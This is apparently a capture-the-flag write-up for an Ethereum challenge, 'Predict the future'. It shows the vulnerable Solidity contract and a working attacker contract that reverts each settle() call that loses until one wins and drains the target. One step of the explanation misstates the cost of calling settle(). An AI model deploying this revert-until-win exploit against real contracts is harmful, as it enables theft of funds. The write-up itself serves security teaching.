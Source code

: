 # 07. Predict the future

This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

Note that it is indeed possible to solve this challenge without losing any ether.

## Target contract

```solidity
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## Vulnerability

The vulnerability lies here : `require(block.number > settlementBlockNumber);` with the fact that you can guess as many times as you want. So you lock you guess once (out of 10 possibilities : `uint8(keccak256(block.blockhash(block.number - 1), now)) % 10`) but then you get a theoretically infinite number of guesses.

Since we don't want to lose any ETH we will attack this challenge with a contract of our own. The idea here is that we must send 1 ETH for each call to `settle` and we get it back only if we are right... It's very likely that we will get it wrong at least once. After all, when we make a guess we have 1/10 chances to be right for the next block, 1/10 to be right for the second etc... 

The idea is to lock our guess, then call `settle` and if we are wrong : revert the transaction. That way it's as if nothing ever happened, we did not lose any ETH by seeking a settlement.

We can do so with the following smart contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma abicoder v1;

interface IChallenge {
    function lockInGuess(uint8 n) external payable;
    function settle() external;
    function isComplete() external view returns (bool);
}

contract Attacker {

    IChallenge targetContract;

    constructor(IChallenge _targetContract) payable {
        require(msg.value == 1 ether, "send 1 ETH");
        targetContract = _targetContract;

        // You can change the guess to any value in {0, ... , 9}
        targetContract.lockInGuess{value: msg.value}(0);
    }

    function attack() public {
        targetContract.settle();
        require(targetContract.isComplete() == true, "Reverting to try again on next block...");
        msg.sender.call{value: address(this).balance}("");
    }

    receive() external payable {}
}
```

Which we deploy and call several times `attack` until we pass without loosing any money, except for the fees of course. I did it with Remix.